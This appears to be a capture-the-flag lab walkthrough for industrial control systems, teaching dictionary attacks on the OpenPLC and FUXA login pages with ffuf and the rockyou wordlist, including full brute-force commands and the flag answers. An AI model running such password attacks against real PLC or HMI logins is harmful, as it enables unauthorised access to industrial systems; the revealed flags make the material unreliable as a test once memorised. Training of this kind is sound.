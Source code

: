 # Password attack
A dictionary attack is a common method used to crack passwords by systematically attempting all the words in a pre-defined list, or "dictionary," until the correct one is found.
This type of attack leverages the tendency of users to choose simple, common passwords, such as "password," "123456," or "qwerty." By using a comprehensive dictionary that includes common words, phrases, and variations, attackers can quickly break into accounts that are protected by weak or predictable passwords.

## Password attack on OpenPLC
In this example we try to get the password of the openplc login using the password fuzzer [ffuf](https://github.com/ffuf/ffuf).  

### Check response
OpenPLC is running at [http://<DEVICE_IP>:8080/login](http://<DEVICE_IP>:8080/login]).
After entering wrong credentials, this page is displayed:  
![bad credentials](doc/wrong_login.png)

When the browsers built in developer console is open during the request, we can see the what is sent and received when we try to login. E.g. in chrome with F12  
![login request](doc/login_request.png)

And the sent payload  
![login payload](doc/login_payload.png)

### Download
```sh
mkdir ~/ffuf
cd ~/ffuf
wget https://github.com/ffuf/ffuf/releases/download/v2.1.0/ffuf_2.1.0_linux_amd64.tar.gz
tar xf ffuf_2.1.0_linux_amd64.tar.gz
```

### Get a wordlist
```sh
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

### ffuf
Start fuff with:
- `-w ./rockyou.txt` the downloaded wordlist
- `-X POST -H "Content-Type: application/x-www-form-urlencoded"` information from the login request
- `-d "username=admin&password=FUZZ"` information form the login request payload (FUZZ is replaced by ffuf)
- `-u http://$DEVICE_IP:8080/login` the request
- `-fs 4561` the length of the response on wrong login
```sh
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -raw -u http://$DEVICE_IP:8080/login -fs 4561
```

For more info start it without parameters
```sh
./ffuf
```

### Find the flag
The flag has the format "CybICS(flag)".

**Hint**: The flag is part of the user information.
<details>
  <summary>Solution</summary>
  
  ##
  :anger: Flag: CybICS(0penPLC)
  ![Flag OpenPLC Password](doc/flag.png)
</details>

## Password attack on FUXA
Use the previous knowledge to fuzz the admin login of FUXA.
FUXA is running at [http://<DEVICE_IP>:1881](http://<DEVICE_IP>:1881). 

### Find the flag
The flag has the format "CybICS(flag)".

**Hint**: The flag appears after successful login on the HMI.
<details>

```sh
./ffuf -v -w ./rockyou.txt -X POST -H "Content-Type: application/json" -d '{"username": "admin", "password": "FUZZ"}' -raw -u http://$DEVICE_IP:1881/api/signin -fr "error"
```


  :anger: Flag: CybICS(FU##A)
  ![Flag FUXA Password](doc/flag2.png)
</details>